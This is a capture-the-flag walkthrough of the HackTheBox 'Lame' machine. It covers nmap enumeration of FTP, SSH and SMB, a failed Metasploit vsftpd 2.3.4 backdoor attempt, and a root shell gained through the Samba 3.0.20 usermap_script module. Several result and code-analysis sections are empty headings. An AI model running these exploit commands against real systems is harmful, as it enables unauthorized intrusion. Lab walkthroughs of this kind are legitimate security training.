


## Introduction

Lame is an easy machine on HackTheBox and one of the earliest boxes available on the platform. It involves exploiting vulnerabilities in the FTP and SMB services to gain root access. This walkthrough will guide you through the process of compromising the Lame machine, from initial reconnaissance to gaining root access.

## Initial Enumeration

### Nmap Scan

The first step in any penetration test is enumeration. We start by scanning the target machine using Nmap to identify open ports and services.

```bash
nmap -sV -sC -p- 10.10.10.3 > nmap/service.log
```

**Nmap Results:**

```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-30 02:48 EST
Nmap scan report for 10.10.10.3
Host is up (0.36s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h31m25s, deviation: 3h32m08s, median: 1m24s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-11-30T02:50:16-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.11 seconds
```

**Key Services Identified:**

- **FTP (21):** vsftpd 2.3.4
- **SSH (22):** OpenSSH 4.7p1
- **SMB (139, 445):** Samba smbd 3.0.20-Debian

## Exploiting FTP

### Identifying the Vulnerability

The Nmap scan revealed that the FTP service is running vsftpd 2.3.4, which is known to have a backdoor command execution vulnerability.

**Exploit Search:**


### Attempting the Exploit

We used the Metasploit module `exploit/unix/ftp/vsftpd_234_backdoor` to attempt to exploit the vulnerability.

**Metasploit Module Execution:**

```bash
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```

**Exploit Failure:**


The exploit failed, so we moved on to the next service.

## Exploiting SMB

### Enumerating SMB Shares

We enumerated the SMB shares using `smbclient`.

```bash
smbclient -L //10.10.10.3
```

**SMB Shares:**


We identified two shares: `/tmp` and `/opt`. Accessing `/opt` required a password, but `/tmp` was accessible.

### Identifying the Vulnerability

The Samba service is running version 3.0.20-Debian, which is vulnerable to a username map script vulnerability.

**Exploit Search:**

We found an exploit for this vulnerability on Exploit-DB: [usermap exploit](https://www.exploit-db.com/exploits/16320).

### Exploiting the Vulnerability

We used the Metasploit module `exploit/multi/samba/usermap_script` to exploit the vulnerability.

**Metasploit Module Execution:**

```bash
msf6 > use exploit/multi/samba/usermap_script
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > exploit
```

**Root Shell Obtained:**



### Understanding the Exploit

The exploit works by sending a username with shell meta-characters to the Samba service, which allows arbitrary command execution. By crafting a payload with a reverse shell, we gained root access.

**Exploit Code Analysis:**


## Conclusion

The Lame machine on HackTheBox provided a comprehensive challenge, encompassing service enumeration, FTP and SMB exploitation. By methodically enumerating services and exploiting discovered vulnerabilities, we successfully compromised the machine and gained root access. This walkthrough underscores the importance of thorough enumeration and the effective use of discovered vulnerabilities in penetration testing.


